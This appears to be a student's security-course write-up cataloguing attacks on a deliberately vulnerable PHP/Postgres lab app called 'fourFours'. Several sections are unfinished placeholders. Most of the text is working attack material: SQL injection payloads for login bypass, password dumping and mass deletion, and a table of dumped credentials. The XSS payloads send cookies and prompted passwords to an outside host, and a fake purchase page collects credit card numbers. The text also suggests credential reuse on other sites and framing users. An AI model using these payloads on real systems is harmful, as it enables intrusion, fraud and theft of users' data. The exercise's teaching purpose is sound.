[back to Manifest](/a2/README.md)

#  Table of Vulnerabilities
1. [SQL Injection](#sql-injection)
2. [XSS](#xss)
3. [XSRF](#xsrf)
4. [Broken Authentication and Session Management](#broken-authentication-and-session-management)
5. [Moar Vulnerable](#moar-vulnerable)

SQL Injection
---------------------
[back to table](#table-of-vulnerabilities)
###  Summary of SQL Exploits:
1. [Error Reports Exploit](#error-reports-exploit)
2. [Login Without Proper Credentials Exploit](#login-without-proper-credentials-exploit)
3. [Extract All Names Exploit](#extract-all-names-exploit)
4. [Extract All Passwords Exploit](#extract-all-passwords-exploit)
5. [Dump Database Information Exploit](#dump-database-information-exploit)
6. [Make Entry As Another User](#make-entry-as-another-user)
7. [Delete All Entries](#delete-all-entries)
8. [Prevent A User From Logging In]
9. [Change User Password]
10.[Blackmail user based on websites visted]

### Exploits

1. __Exploit__:
    #### Error Reports Exploit

    [back to exploit summary](#summary-of-sql-exploits)

    Poorly configured error reports leak developer debugging
    information (table and field  names, current dynamic
    SQL statements, conditional logic of where clause etc.)
    to users without credentials.


    __Example Error:__
    >Warning: pg_prepare() [function.pg-prepare]: Query failed:
    >ERROR: unterminated quoted string at or near "''' AND
    >passwd=''" LINE 1: ...ame, lastName, passwd FROM account
    >WHERE username=''' AND pa... ^ in /var/www/fourFours/index.php
    >on line 20

    __Steps To Reproduce__:
    1. Typing a single quote, `'`, in the `user name` input results in
        an error like the one above echoed to the webpage.

    __Application Logic__:

    We can now turn this debugging information into a working model of the backend
    logic of the application that we can continue to update as more information becomes
    available:

    *Table 1: account table that we know exists from the error log above*

    |...| ...Name       | lastName      |       passwd  |
    |---| ------------- |:-------------:| -------------:|
    |   |               |               |               |
    |   |               |               |               |
    |   |               |               |               |
    |   |               |               |               |
    |   |               |               |               |
    |   |               |               |               |
    
Note: Information about the database was found via 
`x'  UNION (SELECT  null, null, version() , null, null`
from the  header for other versions


2. __Exploit__:

    #### Login Without Proper Credentials Exploit

    [back to exploit summary](#summary-of-sql-exploits)

    Login without the proper credentials accomplished from
    hijacking `WHERE` clause

    __Steps To Reproduce__:
    1. From the error in Exploit 1, we are aware that the "user name"
        input is associated with a query whose `WHERE` statement is

        ```SQL
        WHERE username=''' AND pa...'
        ```
        Since the error message also told us that our input caused an
        unterminated quoted string at or near ` AND passwd=''` we can
        assume that that our input,`$input`, is being dynamically
        inserted into the username attribute of the following `WHERE`
        clause:

        ```SQL
        WHERE username='$input' AND passwd=''
        ```
    2. Now that we have a good assumption of where our input is being
        added, we can inject SQL that can hijack the conditional
        statement of the `WHERE` clause via creating a tautology.
        We assume the tautology may unlock a desired behavior from the
        application, so we insert the following as input:

        ```SQL
        ' OR TRUE; -- '
        ```
        The above input always evaluates to true. As a consequence
        we become logged into the application without proper credentials.

    3. Hence, we assume that the query we have made is:

        ```SQL
        WHERE username='' OR TRUE; -- AND passwd=''
        ```
        Since a the `WHERE` clause would normally return true for a specific
        username-password combination, but now returns true for every entry,
        we suspect the entire table to be returned so the first entry from
        the table was probably used as the login credentials.

3. __Exploit__:
    #### Extract All Names Exploit

    [back to exploit summary](#summary-of-sql-exploits)

    Obtain user's names via exploiting dynamically generated login name from
    welcome page.

    __Steps To Reproduce__:
    1. Upon getting access to the application, we notice that welcome text
        contained a potential user's name "Alex" (see below) and suspect that
        the text may be dynamically generated from the SQL exploit:

        
        *Image 1: A screenshot after login without proper credentials*

    2. After looking at some
        [SQL documentation] (http://www.postgresql.org/docs/8.0/static/queries-limit.html)
        we determine that we can add the `LIMIT` statement to our query above
        and intend to leverage an offset parameter to view other entries that
        may possibly be in the table. A little
        [research](https://en.wikipedia.org/wiki/Select_(SQL)#Result_limits)
        shows  `LIMIT` command is a supported  vendor extension by the popular SQL
        DBMSs MySQL, SQLite, and Postgres, but may be implemented differently.
        However, we chose to try the PSQL implementation of `LIMIT` since we
        know this web application was written by a University of Toronto Professor
        and [research](http://www.cdf.toronto.edu/~csc343h/fall/) on their
        database courses shows that Postgres is commonly taught at this
        institution.

       ```SQL
       ' OR TRUE LIMIT 1 OFFSET 1; --'
       ```
       The above input evaluates to true and also offsets the resulting table
       from the query by 1. This results in a different name being reported in
       the welcome message, confirming our suspicions about the dynamic
       insertion:

       
       *Image 2: A screenshot after offsetting via `LIMIT` query*

    __Application Logic__:
    We now know that a name field exists which some name associated with the
    user, and thus update our table below as we update the offset

    *Table 2: Updated account table from new information*

    |...| ...Name       | lastName      |       passwd  |
    |---| ------------- |:-------------:| -------------:|
    |...|   Alex        |               |               |
    |...|   Anne        |               |               |
    |...|   Linda       |               |               |
    |...|   Abagail     |               |               |
    |   |               |               |               |
    |   |               |               |               |
    |   |               |               |               |
    |   |               |               |               |
    |   |               |               |               |
    |   |               |               |               |
    |   |               |               |               |
    |   |               |               |               |
    |   |               |               |               |
    |   |               |               |               |
    |...|   Ivanna      |               |               |


4. __Exploit__:

    #### Extract All Passwords Exploit

    [back to exploit summary](#summary-of-sql-exploits)

    Extracting user passwords via exploiting dynamically generated login name.

    __Steps To Reproduce__:
    1. We are now certain that there is a field in account whose values are
       being used to populate the some text in the welcome message after we login.
       Since the `pg_prepare()` functionality limits our exploits to only continuing
       off the statement that is already written, we need to somehow use the
       statement to replace the Name that is currently outputted with more
       interesting information. The only way to combine more data on to this
       pre-existing query is to use the `UNION` operator. The union
       statement requires each of its subqueries to have the same schema, but
       since we don't currently know the full schema we try the a union with the
       parts of the schema we know:

       ```SQL
       '  UNION (SELECT  null, null,  passwd FROM account);--'
       ```
       However, this statement errors from a lack of not having the same number
       of columns:

       >Warning: pg_prepare() [function.pg-prepare]: Query failed: ERROR: each
       >UNION query must have the same number of columns in
       >/var/www/fourFours/index.php on line 20

       Thus we continue to add more columns to the `UNION` statement until the error
       no longer appears:

       ```SQL
       '  UNION (SELECT null, null, null, null, passwd FROM account);--'
       ```

       After running this statement and we are successfully logged into the
       web application but we have no information. So we continue to swap positions
       until text appears in the welcome message:

       ```SQL
       '  UNION (SELECT null, null, passwd, null, null FROM account);--'
       ```

       This query successfully logs in and populates the message with a string
       we assume to be the password of the first user in the table.

   2.  Now that we have our column aligned properly to the password, we can use
       the same `OFFSET` trick that we used above to get the passwords of the
       rest of the entries in the account table (via iterating over offset until
       no more values appear).

   3. We can extend this implementation further by selecting the entire column
      as an array and appending it to a string:

      ```SQL
      <INSERT CODE HERE>
      ```

    __Application Logic__:

    We now know that accounts has 5 fields, 15 tuples and a name column as the
    fifth field.

    *Table 3: Updated account table from new information*

    |      |      |   ...Name     | lastName      |    passwd     |
    | ---- |:----:|:-------------:|:-------------:| -------------:|
    |      |      |   Alex        |               |               |
    |      |      |   Anne        |               |               |
    |      |      |   Linda       |               |               |
    |      |      |   Abagail     |               |               |
    |      |      |               |               |               |
    |      |      |               |               |               |
    |      |      |               |               |               |
    |      |      |               |               |               |
    |      |      |               |               |               |
    |      |      |               |               |               |
    |      |      |               |               |               |
    |      |      |               |               |               |
    |      |      |               |               |               |
    |      |      |               |               |               |
    |      |      |    Ivanna     |               |               |

5. __Exploit__:

    #### Dump Database Information Exploit

    [back to exploit summary](#summary-of-sql-exploits)

    __Example:__
    >

    __Steps To Reproduce__:
    1. From the exploit above we can now determine a general way to display    
       content from the database:

       ```SQL
       '  UNION (SELECT  null, null, <FEILD NAME>, null, null FROM <TABLE NAME>);--'
       ```
       where `<FEILD NAME>` is a valid field from the valid table `<TABLE NAME>`. But the problem we now have is not knowing enough information about the database to make this exploit useful.

    2. We solve this problem with further inqury into the
       [Postgres documentation](http://www.postgresql.org/docs/8.4/static/infoschema-tables.html) to discover that postgres supports `information_schema` which contains information about all tables within the database. Since we are interested in table names we try:

        ```SQL
        '  UNION (SELECT  null, null, table_name, null, null FROM information_schema.tables);--'
        ```
         and obtain the following result:
         

         we knew from the error message in Exploit 1 that one of the tables in the database was `account` and this result provides further evidence to support this claim. To find all tables in the database we simply OFFSET iterate as above:

         ```SQL
         '  UNION (SELECT  null, null, table_name, null, null FROM information_schema.tables) LIMIT 1 OFFSET 2;--'
         ```

         from iterating over the query results with OFFSET, we obtain a number
         of [standard SQL system tables](#GET URL) (which we are not interested in at the moment) along with the names of interesting tables:

         ```SQL
         account, fourfoursuser, solution
         ```

         alternative approaches:
         -could have used [pg_tables](#find url for pg tables)

         -could have used array to list to get everything at once
          ```SQL
         '  UNION (SELECT  null, null, array_to_string( ARRAY(SELECT DISTINCT tablename FROM pg_tables), ','), null, null FROM account) ;--'
         ```
         -could have used public with schema to focus on the tables we want
         ```SQL
         '  UNION (SELECT  null, null, array_to_string( ARRAY(SELECT DISTINCT schemaname FROM pg_tables), ','), null, null FROM account) ;--'
         ```
         ```SQL
         '  UNION (SELECT  null, null, array_to_string( ARRAY(SELECT DISTINCT tablename FROM pg_tables WHERE schemaname='public'), ','), null, null FROM account) ;--'
         ```
         

      3. After dumping all tables from the database, we turn our
         attention towards, the more interesting tables. Additional [Postgres documentation](#url) reveals we can obtain the column names of the
         table with the following statement:

         ```SQL
         '  UNION (SELECT  null, null, column_name, null, null FROM information_schema.columns WHERE table_name='account') ;--'

         ```

      4. Now that we know about all the tables and columns of the database, we
        can use our Exploit 4 approaches (ie `LIMIT 1 OFFSET <x>`, or ` array_to-string(<COLUMN>)`) to get all values of the columns and target our malicious queries to specific users. Thus we now have access to all stored user information as shown below:

        <PUT IN THE 3 TABLES WITH ALL VALUES>
        
        |      |      |   ...Name     | lastName      |    passwd     | username | 
    | ---- |:----:|:-------------:|:-------------:| -------------:| ------------:|
    |      |      |   Alex        |     Large          |     sdfdsfd           | bigBoy |
    |      |      |   Anne        |     Lion          |     lion          | anne |
    |      |      |   Linda       |     Swim          |     fourfivesix          | lindah20 |
    |      |      |   Abagail     |     Silver          |   silverisbetter            | coins |
    |      |      |       Jessie        |     Burn          |   password1            | matchstick | 
    |      |      |     Annie          |        Cup       |     password          | coffee |
    |      |      |          Diane     |        Bassell       |     passw0rd          | ssll |
    |      |      |  Steve              |       Mountain        |       cliff        | cliff |
    |      |      |       Arnold        |   Rosenbloom            |     sdxfdsgger          | arnold@cs.toronto.edu
    |      |      |         Jay      |    Perlmuter           |     perl          | perl |
    |      |      |      Peter      |    Piper           |      Peter         | pickApeck |
    |      |      |     Jen          |      Binghampton         |   jbh            | hotel |
    |      |      |     David          |    Kleinman           |       esrever        | dk@gmail.com |
    |      |      |     Jesse          |    Kowalski           |        badPassword       | eightball@gmail.com
    |      |      |    Ivanna     |     Grant          |        grant       | ivanna |
    |      |      |  .     | | | |
        |      |      |  .     | | | |
    |      |      |  .     | | | |
    |      |      |  .     | | | |


        Note that we may now use this sensitive information to gain access to other websites where the user may have used the same credentials.

After discovering the contents of the major tables in the application from the landing page, we focus our efforts to the exploits that may exist inside the logged in state of the application...

6. __Exploit__:

    #### Make Entry As Another User

    [back to exploit summary](#summary-of-sql-exploits)

    __Steps To Reproduce__:
    1. Trivially, once logged in from Exploit 2 we discover that we have broken
       Alex's account and therefore can add an entry as Alex if we choose:

       

    2. Using Exploit 5 allows us to obtain any data from the user we wish.
       Consequently we generate a query to obtain the username and password
       information for any user:


       ```SQL
       '  UNION (SELECT  null, null, username||':'||passwd , null, null FROM account );--'
       ```
       the above query will find the username and password of the first entry in the
       database and return it concatenated into a string separated by a space. This
       string appears in the dynamically generated welcome message as seen below:

       

       Note that we can also obtain information about specific users given there
       names:

       ```SQL
       '  UNION (SELECT  null, null, username||':'||passwd  , null, null FROM account WHERE firstName='Anne');--'
       ```
       Finally, we can obtain any of the users information by using `OFFSET` or
       `array_to_string` as shown previously

       After we have the user's credentials we can proceed to logging in and
       posting as them as in step 1.

    3. Alternately, we can make an entry as another user by beginning to exploit
       the inputs within the logged in state of the application:

       1. We start our exploit by using the standard test from `Exploit 1`, entering
          an empty string, `'`,  into any text box of the application. This yields the
          following error:

          >Warning: pg_prepare() [function.pg-prepare]: Query failed: ERROR:
          >unterminated quoted string at or near "'''" >LINE 1: SELECT * FROM
          >solution WHERE expression=''' ^ in /var/www/fourFours/index.php on line 44
          >
          >Warning: pg_execute() [function.pg-execute]: Query failed: ERROR:
          >unnamed prepared statement does not exist in >/var/www/fourFours/index.php on line 45
          >
          >Warning: pg_fetch_row() expects parameter 1 to be resource, boolean
          >given in /var/www/fourFours/index.php on line 46
          >
          >Warning: pg_prepare() [function.pg-prepare]: Query failed: ERROR:
          >unterminated quoted string at or near "''', 1)" LINE 1: ...o solution
          > (value, expression, accountId) values (0, ''', 1) ^ in /var/www/fourFours/index.php on line 47
          >
          >Warning: pg_execute() [function.pg-execute]: Query failed: ERROR:
          >unnamed prepared statement does not exist in /var/www/fourFours/index.php
          >on line 48

          As in Exploit 1, the poorly configured error reports reveal the
          existence of the tables associated with inputs as well as the
          statements to which the inputs are dynamically added.
          We obtain the following information:

            + The text inputs first get queried on the `solution` table using the
              statement:

              ```SQL
                 SELECT * FROM solution WHERE expression='$input'
              ```
            + After the input is used in the above query it is also added to the
              solution table using:

              ```SQL
              ...o solution (value, expression, accountId) VALUES (0, '$input', 1);
              ```

              which we can safely assume to be the statement:

              ```SQL
              INSERT INTO solution (value, expression, accountId) VALUES (0, '$input', 1);
              ```

              Since the only Postgres function that takes `VALUES` is `INSERT INTO`.

           2. We now know the process that the web application goes through to insert different
              user values and as result we can exploit the queries of this process via
              SQL injection when the input starts. Since the user input happens before
              the user ids are given, we can over write the accountID with the ids of
              any user from the tables that we found in the previous query by typing
              in the following input:

              ```SQL
              4/4-4/4', 2); -- '
              ```
              which yields the following result:

              

              thus we can infer that the actual query that ran was:

              ```SQL
              INSERT INTO solution (value, expression, accountId) VALUES (0, '/4-4/4', 2); -- '
              ```
              and we can swap out the last number (2) for any other accountId from the tables
              of the previous exploit to make an enter from another user while logged in
              as a different user.

              Note: techniques like this can be used to frame users for doing
              things that we have actually done.

7. __Exploit__:

    #### Delete All Entries

    [back to exploit summary](#summary-of-sql-exploits)

    __Steps To Reproduce__:
    1. From inside the of the web application when we make and delete a post we notice    
       that the URL for the web page changes.

       ```
       http://192.168.163.128/fourFours/index.php?operation=deleteExpression&expressionId=17&accountId=1
       ```

       

       Because the web application is using php parameters in `GET` requests, the
       logic of the php script and its variables are visible to the user.
       We suspect that the exposed php logic is related to the database because
       its variables share similar names with the fields of the `solutions` table.
       We can exploit this by editing the URL reasonably so that the the potential
       query made from this URL will return true.

    2. Since we know what the solutions table looks like from previous
       exploits,
       we can try altering the URL with a matching `expressionId` and `accountId`
       and observe the behavior:

       ```
       http://192.168.163.128/fourFours/index.php?operation=deleteExpression&expressionId=5&accountId=8
       ```
       We expect that the URL above will delete a post from the user with
       accountId of 8 and expressionId of 5 and observe the following:

       Before:
       

       After:
       

       From the deleted expression shown above we suspect that the php logic
       of the above URL is  associated with a dynamically generated SQL
       `DELETE` statement.
    3. We take this suspicion a step further and insert a tautology into the
       URL:
       ```
       http://192.168.163.128/fourFours/index.php?operation=deleteExpression&expressionId=%27%271%27=%271%27%27&accountId=%27%271%27=%271%27%27
       ```
       The query fails, but we obtain the following result:

       >Warning: pg_prepare() [function.pg-prepare]: Query failed: ERROR: syntax
       >error at or near "1" LINE 1: DELETE FROM solution WHERE id=''1'='1'' AND
       >accountId=''1'='... ^ in /var/www/fourFours/index.php on line 36
       >
       >Warning: pg_execute() [function.pg-execute]: Query failed: ERROR:
       >unnamed prepared statement does not exist in /var/www/fourFours/index.php on line 37

       Which confirms our suspicions of the `DELETE` statement to be correct.

       Thus we readjust the query to:
       ```
       http://192.168.163.128/fourFours/index.php?operation=deleteExpression&expressionId=1%20OR%20TRUE&accountId=1%20OR%20TRUE
       ```
       and we obtain the desired results:
       

__Error Inside Application:__
>Warning: pg_prepare() [function.pg-prepare]: Query failed: ERROR:
>unterminated quoted string at or near "'''" LINE 1: __SELECT__ * FROM solution
>WHERE expression=''' ^ in /var/www/fourFours/index.php on line 44

XSS
---------------------

[back to table](#table-of-vulnerabilities)
###  Summary of XSS Exploits:
1. [Manipulate the DOM](#manipulate-the-dom)
2. [Load Resources from Inside Site](#load-resources-from-inside-site)
3. [Load Resources from Outside Site](#load-resources-from-outside-site)
4. [Send Information Outside Site](#send-information-outside-site)
5   [Fake Login page]
6. [Stealing User Cookies](#stealing-user-cookies)
7. [Accessing User History](#accessing-user-history)
8. [Framing the User for XSRF](#framing-the-user-for-xsrf)

### Exploits:
1. __Exploit__:

    #### Manipulate the DOM

    [back to exploit summary](#summary-of-xss-exploits)

    __Steps To Reproduce__:

    1.  After adding in a series of inputs to the assignment we noticed that
        incorrect inputs are not being checked correctly and from this we suspect that the inputs are not being sanitized as well so we try the
        following inputs:

        ```html
            <h1>TEST</h1>
        ```
        and obtain the following results:

        

        We now know that the inputs are not being sanitized so we can now exploit the site even more via manipulating the DOM by inserting
        `HTML`, `PHP`, and `Javascript`.

        web application uses input from a user within the output it generates
        without validating or encoding it.
        Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by the browser and used with that site


2. __Exploit__:

    #### Load Resources from Inside Site

    [back to exploit summary](#summary-of-xss-exploits)

    __Steps To Reproduce__:
    1. A variety of html tags exist that can be used to load resources. We can
       use canonical naming to load other resources from the site that the application does not intend:
       ```HTML
       
       ```
       nothing significant happens in the webpage itself, but if we check the resources loaded by the webpage we see that we have loaded another file
       outside of the fourFours web application:

       

       If a malicious user knew the filesystem of the server running this application, they can potentially extract any resource they wanted

       Note that the following yields similar results:

       ```HTML
       <embed src="index.php"> <!-- OR ANY OTHER FILE-->
       ```
       ```HTML
       <pre src="index.php"\><!-- OR ANY OTHER FILE-->
       ```
       Note also that similar approaches in javascript exist

       !!!!use javascript to et index.php file verbatim!!!

3. __Exploit__:

    #### Load Resources from Outside Site

    [back to exploit summary](#summary-of-xss-exploits)

    __Steps To Reproduce__:
    1. We can also use the same elements and javascript techniques from above
       to load resources form elsewhere on the web page persistently:

       ```HTML
       
       ```
       This code yields the following result:
       


       We can take this a step further by using this exploit to embed an advertisement or a download link to malicious software.

       ```HTML
       <a href="http://cslinux.utm.utoronto.ca/~debourbo/www/" download="virus.txt">
            
       </a>
       ```
       Before Click
       
       After Click
       

      After clicking on the add the user downloads `virus.txt` file

      Finally, we can take this a step even further by inserting our own widgets and webpages into the site itself, possibly emulating an e-commerce widget to download the app.

      ```HTML
        <iframe src="http://cslinux.utm.utoronto.ca/~debourbo/add.php" width="100%" height="100%"></iframe>
      ```

      ```HTML
        <embed src="http://cslinux.utm.utoronto.ca/~debourbo/add.php">
      ```
      The add.php file contents are shown below:

      ```PHP
      <html>
      <head></head>
      <body>
      	<?php
      	if (isset($_REQUEST['credit-card'])){
      		file_put_contents('credit_cards', $_REQUEST['credit-card'], FILE_APPEND);
      		file_put_contents('credit_cards', "\n", FILE_APPEND);
      	}
      	?>
        <h1>BUY DESKTOP APP NOW!:</h1>
          	<form action="add.php" method="get">
          		<input type="text" name="credit-card" placeholder="Type your credit card number here">
          		<input type="text" placeholder="Type your CSV (on the back) here">
          		<input type="submit" value="BUY NOW">
          	</form>

       </body>

      </html>
      ```

      When we insert this code into the input we get the following result:
      

      When the user fills out the form and clicks `BUY` a their credit card information gets stored in a file on our server. Note we could have also linked the virus from the previous point so that the user got a virus on download.

      These types of widgets and embedded information can be used to trick users into getting even more information (such as shipping and address information)

4. __Exploit__:

   #### Send Information Outside Site

   [back to exploit summary](#summary-of-xss-exploits)

   __Steps To Reproduce__:
   1. If we want to opt for exploits that are more subtle, we can use insert javascript
      into the browser to send us user information:

      ```HTML
        <script>
            var password = prompt("Confirm Password");
            url="http://cslinux.utm.utoronto.ca/~debourbo/password.php?password="+password; document.location=url;
        </script>
     ```
     When the user goes back to log in, this script asks the user to confirm their password and sends the password
     to file on our server. Note, we could also ask for additional login information names or like common password
     reset strings such as
     ```
     Verify Identity by Answering One of Your Security Questions - What is your favourite resturant? etc.
     ```

5. __Exploit__:

    #### Stealing User Cookies   

   [back to exploit summary](#summary-of-xss-exploits)

    __Steps To Reproduce__:
    1. Javascript exploits also allow you to get access to the user's cookie information:

       ```HTML
         <script>
             url="http://cslinux.utm.utoronto.ca/~debourbo/cookie.php?cookie="+document.cookie; document.location=url;
         </script>
       ```
       Note that this may be done more discretely using loads through image tags etc.
       We can use these cookies to gain access to the users account.

       session hijacking via ajax json java script or a mlicious link

6. __Exploit__:

   #### Accessing User History

  [back to exploit summary](#summary-of-xss-exploits)

   __Steps To Reproduce__:
   1.


7. __Exploit__:

   #### Framing the User for XSRF

   [back to exploit summary](#summary-of-xss-exploits)

   __Steps To Reproduce__:
   1. If we view the source information of the web application we note that the
      form elements might be revealing the php variables that we can add to the
      URL in the same way as previous exploits:

      [PIC]

      So we try a same URL in the same format of the similar above exploit above:

      ```
      ```

      And we obtain a desired result:

      [PIC]

   2. We can insert the following script as input to cause a user to start a cross site
      script against another user:

      ```HTML
        
      ```

      Note that this code allows us to discretely add entries as another user
      through a second, different user. Furthermore, if we can find another
      website that does not sanitize inputs, we can add this script so that
      we get access to this website even if its SQL statements were fixed.

-AJAX JUQERY JAVASCRIPT for advanced thingy

XSRF
---------------------
[back to table](#table-of-vulnerabilities)
###  Summary of Exploits:

[Visiting Malicious Web Page](#login-without-proper-credentials-exploit)


###  Exploits:
1. __Exploit__:


    __Example:__
    >

    __Steps To Reproduce__:
    1. `code block`


Broken Authentication and Session Management
---------------------
[back to table](#table-of-vulnerabilities)
###  Summary of Exploits:
1. [Visiting Malicious Web Page](#login-without-proper-credentials-exploit)
-The password are not hashed leaving the passwords in accounts exposed to users (see exploit above)
-The website does not seem to stop after certain number of password guesses alowing a brute force approche
-gives session out before login
-The feilds on the tables are not obfiscated, which allows for the logic to be guessed very easily
-Everything is sent over unencrpyted connections 
-Sessions do not appear to time out quickly so can potentially follwo user around, wait for them to log in and leave their terminal unattended


